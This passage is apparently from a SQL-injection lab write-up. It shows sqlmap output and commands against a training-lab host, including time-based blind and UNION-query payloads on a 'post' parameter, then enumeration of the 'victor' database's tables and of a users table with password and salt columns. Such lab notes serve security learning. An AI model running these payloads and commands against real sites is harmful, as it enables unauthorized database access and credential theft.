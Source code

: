 ```
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: post=1 AND (SELECT 5966 FROM (SELECT(SLEEP(5)))VeRq)

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: post=1 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71767a7171,0x5a6a4c756e53455042676f435242625448484e496d555658614f427852756467486e62575855427a,0x71716a7671),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[17:45:34] [INFO] the back-end DBMS is MySQL📌
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)📌
web application technology: Apache 2.4.18📌
back-end DBMS: MySQL >= 5.0.12📌
[17:45:35] [INFO] fetched data logged to text files under '/home/nabla/.local/share/sqlmap/output/vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com'

[*] ending @ 17:45:35 /2024-12-10/
```

`sqlmap -r ./request.txt -p 'post' -D 'victor' --tables`:
```
[...]

[17:46:43] [INFO] fetching tables for database: 'victor'📌
Database: victor
[4 tables]
+------------+
| categories |
| comments   |
| posts      |
| users      |📌
+------------+

[17:46:44] [INFO] fetched data logged to text files under '/home/nabla/.local/share/sqlmap/output/vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com'

[*] ending @ 17:46:44 /2024-12-10/
```

`sqlmap -r ./request.txt -p 'post' -D 'victor' -T 'users' --columns`:
```
[...]

[17:47:25] [INFO] fetching columns for table 'users' in database 'victor'
Database: victor
Table: users📌
[9 columns]📌
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| randsalt       | varchar(255) |
| user_email     | varchar(255) |
| user_firstname | varchar(255) |
| user_id        | int(3)       |
| user_image     | text         |
| user_lastname  | varchar(255) |
| user_name      | varchar(255) |
| user_password  | varchar(255) |
| user_role      | varchar(255) |
+----------------+--------------+

[17:47:26] [INFO] fetched data logged to text files under '/home/nabla/.local/share/sqlmap/output/vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com'

```